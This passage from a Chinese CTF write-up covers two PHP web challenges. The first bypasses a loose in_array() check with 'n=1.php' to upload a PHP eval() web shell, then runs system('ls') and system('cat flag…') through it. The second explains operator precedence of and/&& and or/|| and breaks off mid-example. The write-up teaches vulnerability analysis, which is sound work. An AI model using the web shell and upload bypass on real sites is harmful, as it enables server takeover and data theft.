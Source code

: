 在 `$haystack`中搜索` $needle`，如果第三个参数` $strict`的值为 TRUE，则 in_array()函数会进行强检查，检查 `$needle`的类型是否和 `$haystack`中的相同。如果找到 `$haystack`，则返回 TRUE，否则返回 FALSE。

很明显，这题使用in_array()函数时并没有设置第三个参数为TRUE，所以此时是==的弱类型比较。（弱比较字符串 1.php 与 1 返回 true）

**绕过方法:**
传入n=1.php。（这道题，每次生成随机数都包含 1，所以 1 在数组中的可能最大）因为PHP在使用 in_array()函数判断时，会将 1.php强制转换成数字1，而数字1在 range(1,24)数组中，当随机生成的数字正好是1时绕过 in_array()函数判断，导致任意文件上传漏洞。

**payload:**

```
n=1.php
post:content=<?php eval($_POST[1]);?>
```

多试几次，直到不报错的那一次，说明成功传入一句话。

然后访问https://url/1.php，再post传入1=system('ls');

再post: 1=system('cat flag***.php')；

然后在网页源码中看到flag





### 8、and与&& 、or与||的区别

**（Web 100）**

> 以下是对php中OR与||、AND与&&的区别进行了详细的总结介绍

本身没有区别，习惯问题 ，但是有时候牵涉到运算符优先级的问题，结果会不同。

赋值运算的优先级比AND和OR的高，所以先赋值；比&&和||的低，所以逻辑运算符先执行，先逻辑运算，再赋值

例如：

```php
<?php
$p = 6 or 0;
var_dump($p);//int(6)

$p = 6 || 0;
var_dump($p);//bool(true)

$p = 6 and 0;
var_dump($p); //int(6) 

$p = 6 && 0;
var_dump($p); //bool(false) 
?>
```

```php
<?php
$bA = true;
$bB = false;
$b1 = $bA and $bB;
$b2 = $bA && $bB;
var_dump($b1); // $b1 = true
var_dump($b2); // $b2 = false
$bA = false;
$bB = true;
$b3 = $bA or $bB;
$b4 = $bA || $bB;
var_dump($b3); // $b3 = false
var_dump($b4); // $b4 = true


$bA = true;
```